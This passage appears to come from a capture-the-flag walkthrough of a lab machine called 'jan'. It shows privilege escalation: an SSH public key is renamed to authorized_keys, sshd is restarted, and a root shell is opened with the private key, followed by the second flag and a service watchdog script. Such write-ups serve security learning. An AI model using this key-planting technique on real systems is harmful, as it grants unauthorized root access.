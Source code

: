 Rename `id_rsa.pub`:

```bash
jan:~/.ssh$ mv id_rsa.pub authorized_keys
```

Restart service:

```bash
jan:~/.ssh$ sudo /sbin/service sshd restart
```

### Step 3: Use `id_rsa`

Copy the content of `id_rsa` and use it to connect as root user, from our host

```bash
ssh -i id_rsa root@192.168.0.106
```

We have escalated privileges and have become 'root' users.

```bash
jan:~# whoami
root
```

**FLAG 2:**

```bash
jan:~# ls
root.txt  ver.sh
jan:~# cat ver.sh 
#!/bin/bash

# Verifica si el proceso "lol" está en ejecución
if ! pgrep -x "httpz" > /dev/null
then
    /opt/httpz &
fi
jan:~# 
```

